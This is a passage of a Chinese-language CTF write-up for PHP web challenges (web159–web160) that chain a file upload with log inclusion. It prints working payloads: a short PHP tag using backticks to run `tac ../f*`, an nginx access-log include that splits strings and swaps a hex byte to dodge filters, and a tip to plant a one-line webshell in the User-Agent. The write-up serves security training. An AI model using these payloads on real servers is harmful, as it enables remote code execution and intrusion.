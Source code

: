 访问`/upload/`（后面的斜杠一定要加），成功读取

![image-20250311103030870](assets/image-20250311103030870.png)

后面直接在UA里面插入一句话木马即可

还有一种方法是将`1.txt`内容改为

```
<?= `tac ../f*`; ?>
```

直接传入

反引号在 PHP 中可以执行系统命令，类似于 `shell_exec()`。



#### web160

过滤了空格和反引号

上传了配置文件后，在`1.txt`中输入

```
<?=include1'/var/lo'.'g/nginx/access.lo'.'g'?>
```

在hex中将1的`31`换成`0d`，然后发送即可

这里还有一种方法是使用 php://filter 读取 flag.php 的源码，使用拼接绕过关键字的过滤。

在`1.txt`传入
